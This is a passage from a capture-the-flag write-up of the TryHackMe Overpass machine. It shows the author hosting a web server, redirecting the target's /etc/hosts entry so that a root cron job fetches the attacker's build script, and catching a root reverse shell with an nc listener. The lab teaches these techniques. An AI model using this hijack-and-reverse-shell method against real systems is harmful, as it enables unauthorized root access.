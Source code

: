Now, we start a webserver to receive the curl request.

````shell

┌──(kali㉿kali)-[~/Documents/Overpass/web]

└─$ python3 -m 'http.server' --cgi 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

````

Now we should be able to edit the /etc/hosts to point to our IP and cross our fingers

```shell

127.0.0.1 localhost

127.0.1.1 overpass-prod

10.6.19.46 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1     ip6-localhost ip6-loopback

fe00::0 ip6-localnet

ff00::0 ip6-mcastprefix

ff02::1 ip6-allnodes

ff02::2 ip6-allrouters

````

WE GOT A REQUEST

````shell

┌──(kali㉿kali)-[~/Documents/Overpass/web]

└─$ python3 -m 'http.server' --cgi 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

10.10.94.94 - - [03/Feb/2023 21:24:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

````

AND ROOT

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ nc -lvnp 420 

listening on [any] 420 ...

connect to [10.6.19.46] from (UNKNOWN) [10.10.94.94] 36740

sh: 0: can't access tty; job control turned off

# whoami

root

````